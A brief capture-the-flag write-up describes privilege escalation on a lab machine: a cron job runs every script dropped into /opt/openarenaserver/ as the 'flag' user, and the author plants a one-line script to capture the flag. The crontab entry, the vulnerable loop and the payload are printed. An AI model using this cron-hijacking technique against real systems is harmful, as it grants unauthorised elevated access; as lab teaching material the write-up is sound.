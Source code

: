 # Exploiting Scheduled Script Execution

While exploring, we discovered an automated cron job running as the `flag` user:
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag
```
Looking into `/usr/sbin/openarenaserver`, we saw it executes any script placed in `/opt/openarenaserver/`:
```
for i in /opt/openarenaserver/* ; do
  (ulimit -t 5; bash -x "$i")
  rm -f "$i"
done
```
This meant any script we placed in `/opt/openarenaserver/` would be executed as the `flag` user within 2 minutes.

To exploit this, we created a script in that directory containing:
```
getflag > /tmp/result
```
After waiting for the cron job to run, we checked `/tmp/result` and found the flag inside.
